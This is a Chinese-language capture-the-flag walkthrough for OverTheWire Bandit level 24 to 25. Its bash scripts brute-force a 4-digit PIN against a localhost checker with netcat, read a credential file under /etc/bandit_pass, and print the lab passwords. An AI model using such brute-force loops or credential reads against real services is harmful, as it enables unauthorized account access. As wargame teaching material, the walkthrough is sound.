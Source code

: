# Bandit Level 24 → Level 25 攻略 🔢

## 关卡目标 🎯

本关卡的目标是编写一个脚本，通过暴力破解一个4位数字PIN码，将当前级别的密码和PIN码提交到本地主机的30002端口，以获取下一关的密码。

## 所需知识 📚

### 暴力破解 🔨

暴力破解是一种通过尝试所有可能的组合来找到正确答案的方法。在这个关卡中，我们需要尝试所有可能的4位数字PIN码（0000-9999）。

### Shell脚本循环 🔄

我们需要使用shell脚本的循环结构来生成所有可能的PIN码。

### 网络通信 🌐

我们需要使用网络工具（如`nc`）将密码和PIN码发送到指定的端口。

### 文件I/O和重定向 📄

我们需要使用文件I/O和重定向来处理大量的输出数据。

## 详细解题步骤 📝

### 1. 登录游戏服务器 🔐

使用上一关获得的密码登录服务器：

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

密码：`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

### 2. 获取当前级别的密码 🔑

我们需要知道当前级别（bandit24）的密码，以便发送给服务器：

```bash
cat /etc/bandit_pass/bandit24
```

输出结果应该显示bandit24的密码：

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

### 3. 测试服务器 🧪

首先，我们可以尝试连接到服务器，看看它的响应：

```bash
echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234" | nc localhost 30002
```

输出结果可能类似于：

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line separated by a space.
Wrong! Please enter the correct pincode. Try again.
```

这表明我们需要提供正确的密码和PIN码才能获取下一关的密码。

### 4. 创建临时目录 📂

我们需要创建一个临时目录来存储我们的脚本和输出文件：

```bash
mkdir -p /tmp/bandit24_to_25
cd /tmp/bandit24_to_25
```

### 5. 编写暴力破解脚本 📝

现在我们需要编写一个脚本，生成所有可能的PIN码并将它们与密码一起发送到服务器：

```bash
nano brute_force.sh
```

在编辑器中输入以下内容：

```bash
#!/bin/bash

password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

# 生成所有可能的PIN码并将它们与密码一起保存到文件中
for pin in {0000..9999}; do
    echo "$password $pin"
done > pins.txt

# 将生成的密码和PIN码发送到服务器
cat pins.txt | nc localhost 30002 > output.txt

# 查找包含密码的行
grep -v "Wrong" output.txt
```

保存并退出编辑器（在nano中，按Ctrl+O保存，然后按Ctrl+X退出）。

### 6. 设置脚本权限 🔒

我们需要确保脚本具有执行权限：

```bash
chmod +x brute_force.sh
```

### 7. 执行脚本 🚀

现在我们可以执行脚本：

```bash
./brute_force.sh
```

脚本会生成所有可能的PIN码，将它们与密码一起发送到服务器，并将输出保存到`output.txt`文件中。这个过程可能需要一些时间。

### 8. 查看结果 🔍

脚本执行完成后，我们可以查看输出文件，找到包含密码的行：

```bash
cat output.txt | grep -v "Wrong"
```

输出结果应该包含下一关的密码：

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

### 9. 优化方法（可选）🔄

上述方法可能需要较长时间执行。我们可以使用更高效的方法，例如将PIN码分批发送：

```bash
#!/bin/bash

password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

# 创建一个临时文件
touch result.txt

# 分批生成PIN码并发送
for i in {0..9}; do
    for j in {0..9}; do
        for k in {0..9}; do
            for l in {0..9}; do
                echo "$password $i$j$k$l"
            done
        done
    done | nc localhost 30002 >> result.txt
done

# 查找包含密码的行
grep -v "Wrong" result.txt
```

这个脚本将PIN码分成多批发送，可能会更快地找到正确的PIN码。

## 命令解释 🔍

- `for pin in {0000..9999}; do echo "$password $pin"; done > pins.txt`：
  - `for pin in {0000..9999}; do ... done`：循环生成所有可能的4位数字PIN码
  - `echo "$password $pin"`：将密码和PIN码组合成一行
  - `> pins.txt`：将输出重定向到`pins.txt`文件
- `cat pins.txt | nc localhost 30002 > output.txt`：
  - `cat pins.txt`：读取`pins.txt`文件的内容
  - `|`：管道操作符，将前一个命令的输出作为后一个命令的输入
  - `nc localhost 30002`：使用netcat连接到本地主机的30002端口
  - `> output.txt`：将输出重定向到`output.txt`文件
- `grep -v "Wrong" output.txt`：
  - `grep`：搜索文本
  - `-v`：反向匹配，显示不包含指定模式的行
  - `"Wrong"`：要排除的模式
  - `output.txt`：要搜索的文件

## 学习要点总结 📌

1. **暴力破解基础** - 学习了如何使用暴力破解方法尝试所有可能的组合
2. **Shell脚本循环** - 了解了如何使用shell脚本的循环结构生成数据
3. **网络通信** - 学习了如何使用netcat与网络服务通信
4. **文件I/O和重定向** - 了解了如何使用文件I/O和重定向处理大量数据

## 提示 💡

- 暴力破解是一种最后手段的方法，通常效率较低，但在某些情况下是唯一的选择
- 在实际应用中，应该尽量避免使用暴力破解，因为它可能违反服务条款或法律
- 使用分批处理可以提高暴力破解的效率，但仍然需要较长时间
- 在处理大量数据时，使用文件而不是直接在终端显示可以提高效率

## 下一步 ⏭️

使用获得的密码登录到Level 25：

```bash
ssh bandit25@bandit.labs.overthewire.org -p 2220
```

密码：`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

## 相关资源 🔗

- [Bash循环结构详解](./resource/level_25/Bash循环结构详解.md)
- [Netcat (nc) 命令详解](./resource/level_25/Netcat命令详解.md)
- [Linux文件I/O和重定向](./resource/level_25/Linux文件IO和重定向.md)

